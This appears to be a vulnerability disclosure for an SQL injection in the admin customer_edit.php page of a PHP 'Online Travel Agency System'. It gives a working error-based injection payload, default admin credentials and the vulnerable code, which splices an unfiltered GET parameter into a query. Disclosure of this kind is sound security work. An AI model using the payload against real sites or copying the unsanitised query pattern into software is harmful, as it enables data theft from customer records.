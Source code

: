 # [Online Travel Agency System-SQL Injection-customer_edit.php]

## Basic Information

**[Bug Reporter]:**  DililLearngent

**[Application Vendors]:**  https://www.sourcecodester.com/online-travel-agency-system-using-php.html

**[Affected Version]:**Online Travel Agency System V1.0

**[Test Environment]:**  windows10+apache+php7.0

**[Install]:**

1. start **Apache** and **MySQL**.

2. **Extract** the downloaded source code **zip** file.

3. **Copy** the extracted source code folder and **paste** it into the **www directory**.

4. **Create** a **new database** naming **"travel_agency"**.

5. **Import** the provided **SQL** file. The file is known as **"travel_agency.sql"** located inside the extracted source code folder.

6. **Browse** the **Online Travel Agency System** in a **browser**. i.e. **http://localhost/Travel**

   **Admin Access Information:**

   Username: **admin**
   Password: **admin**

## Bug Information

**[Vulnerability type]:** SQL Injection

**[Vulnerability Url]:** `http://10.142.221.111/Travel/admin/customer_edit.php?costomer_id=104`    

**[Vulnerability Location]:** Travel/admin/customer_edit.php

**[Vulnerability Test]:**

1. payload:`costomer_id=104%27%20and%20extractvalue(1,concat(0x7e,(select%20database()),0x7e))--+`

   ![](../../img/20230428161221.png)

   The database name was obtained from the above payload execution.

**[code analysis]:**

Travel/admin/customer_edit.php

```php
<?php
  $sql="select*from costomer where costomer_id='$_GET[costomer_id]'";
$result=mysqli_query($con,$sql) or die(mysqli_error($con));
while($row=mysqli_fetch_array($result))
{
	$costomer_id=$row['costomer_id'];
	$full_name=$row['full_name'];
	$son_of=$row['son_of'];
	$status=$row['status'];
	$date_of_birth=$row['date_of_birth'];
	$place_of_birth=$row['place_of_birth'];
	$previous_nationality=$row['previous_nationality'];
	$present_nationality=$row['present_nationality'];
	$sex=$row['sex'];
	$marital_status=$row['marital_status'];
	$sect=$row['sect'];
	$religion =$row['religion'];
	$place_of_issue=$row['place_of_issue'];
	$qualification=$row['qualification'];
	$profession=$row['profession'];
	$home_address=$row['home_address'];
	$telephone_no=$row['telephone_no'];
	$purpose_of_travel=$row['purpose_of_travel'];
	$date_of_passport=$row['date_of_passport'];
	$passport_no=$row['passport_no'];
	$date_of_passport_expiry=$row['date_of_passport_expiry'];
	$duration_of_stay_in_kindom=$row['duration_of_stay_in_kindom'];
	$date_of_arrival =$row['date_of_arrival'];
	$date_of_departure=$row['date_of_departure'];
	$mode_of_payment=$row['mode_of_payment'];
	$relationship=$row['relationship'];
	$destination=$row['destination'];
	$carriers_name=$row['carriers_name'];
	$visa_no=$row['visa_no'];
	$date_of_insertion=$row['date_of_insertion'];
	$inserted_by=$row['inserted_by'];
}
?>
```

The GET parameter `costomer_id` is obtained without any filtering and spliced directly into the sql execution statement, and display the errors returned by the database execution back to the front-end page.

